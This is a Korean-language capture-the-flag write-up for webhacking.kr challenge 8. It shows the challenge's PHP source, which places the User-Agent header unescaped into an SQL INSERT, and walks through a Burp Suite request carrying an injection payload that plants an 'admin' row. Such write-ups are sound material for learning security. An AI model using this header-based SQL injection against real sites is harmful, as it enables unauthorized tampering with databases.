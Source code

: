 ```yaml
---
title: "[webhacking.kr] 8번 문제 풀이[SQL]"
categories:
  - webhacking
tags:
  - webhacking.kr
  - wargame
  - SQL
toc: true
toc_sticky: true
toc_label: "8번 문제 풀이"
toc_icon: "bookmark"
author_profile: true
header:
  teaser: /assets/images/webhacking.jpg
---
```


💡 Webhacking.kr challenge(old) 8번 문제에 대한 풀이입니다.
{: .notice--warning}

# 문제

## 문제 화면
![image](https://user-images.githubusercontent.com/33647663/150669805-ed40d507-aaab-427f-a3d4-a17790bde07b.png)


## 소스코드
 ```php
  <?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 8</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
</style>
</head>
<body>
<br><br>
<center>
<?php
$agent=trim(getenv("HTTP_USER_AGENT"));
$ip=$_SERVER['REMOTE_ADDR'];
if(preg_match("/from/i",$agent)){
  echo("<br>Access Denied!<br><br>");
  echo(htmlspecialchars($agent));
  exit();
}
$db = dbconnect();
$count_ck = mysqli_fetch_array(mysqli_query($db,"select count(id) from chall8"));
if($count_ck[0] >= 70){ mysqli_query($db,"delete from chall8"); }

$result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
$ck = mysqli_fetch_array($result);

if($ck){
  echo "hi <b>".htmlentities($ck[0])."</b><p>";
  if($ck[0]=="admin"){
    mysqli_query($db,"delete from chall8");
    solve(8);
  }
}

if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
}
?>
<a href=./?view_source=1>view-source</a>
</body>
</html>

 ```

# 풀이

## 문제 분석
  문제를 해결하기 위한 solve함수가 호출되는 부분은 다음과 같습니다.
  ```php
  $agent=trim(getenv("HTTP_USER_AGENT")); // 나의 패킷에서 USER_AGENT 값을 추출
  $ip=$_SERVER['REMOTE_ADDR']; // 나의 IP 추출
  if(preg_match("/from/i",$agent)){ //agent 에서 from 문자열 필터링
    echo("<br>Access Denied!<br><br>");
    echo(htmlspecialchars($agent));
    exit();
  }
  $db = dbconnect();

  $result = mysqli_query($db,"select id from chall8 where agent='".addslashes($_SERVER['HTTP_USER_AGENT'])."'");
  $ck = mysqli_fetch_array($result);
  // user_agent 값을 기준으로 id를 불러옴
  if($ck){
    echo "hi <b>".htmlentities($ck[0])."</b><p>";
    if($ck[0]=="admin"){
      mysqli_query($db,"delete from chall8");
      solve(8);
    }
  }
  // 해당 쿼리 결과로 id값이 'admin'이면 solve;

  if(!$ck){
  $q=mysqli_query($db,"insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')") or die("query error");
  echo("<br><br>done!  ({$count_ck[0]}/70)");
  }
  // 만약 쿼리 결과가 없다면 현재 내 user_agent,ip를 기준으로 'guest' 유저를 db에 저장한다.
  ```

  위 부분을 보니, 저의 user_agent 값을 기준으로 DB에서 쿼리를 했을 때 id가 'admin'이어야 합니다. 그리고 저의 user_agent 값이 insert 문으로 DB에 저장되기 때문에 이 부분을 우회하여 계정을 'guest'가 아닌 'admin'으로 저장해 보겠습니다.
  
  먼저 user_agent 값을 변조하기 위해서는 Burp Suite 같은 프록시 툴을 이용해서 패킷을 잡아야 합니다.

  아래 그림에서 보이는 부분이 아무런 변조를 하지 않았을 때 서버로 날아가는 저의 패킷 입니다.

  ![image](https://user-images.githubusercontent.com/33647663/150669956-689c1003-ca20-4d9a-9723-4894787aaa43.png)

  ```md
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
  ```
  기본 User-Agent 값은 위와 같으며 이 내용을 이용해서 insert 부분을 우회해 보겠습니다.

  먼저 위의 내용이 서버로 전달되면 서버에서는 다음 SQL문이 작동합니다.

  ```sql
  "insert into chall8(agent,ip,id) values('{$agent}','{$ip}','guest')"
  ```

  위에서 $agent 부분을 다음과 같이 넣어주겠습니다.

  ```md
  1234','1','admin'),('5678
  ```
  $agent 부분을 위의 문자열을 대입해 보면 서버쪽에서 동작하는 sql 문은 다음과 같이 변조가 됩니다.
  ```sql
  "insert into chall8(agent,ip,id) values('1234','1','admin'),('5678','{$ip}','guest')"
  ```

  이를 이용해서 실제로 패킷을 변조해서 보내 보겠습니다.

  ![image](https://user-images.githubusercontent.com/33647663/150670144-578291ae-2450-49d5-8e3c-bd69b7f04df7.png)

  
  이제 서버로 User-Agent 값을 1234를 보내면 됩니다.

  ![image](https://user-images.githubusercontent.com/33647663/150670228-c846e50b-6fd9-4545-b6a7-28ec6823a14b.png)

  그러면 문제가 풀립니다.

  ![image](https://user-images.githubusercontent.com/33647663/150670275-c7f13551-bbfa-4054-84d2-45eb731227bd.png)


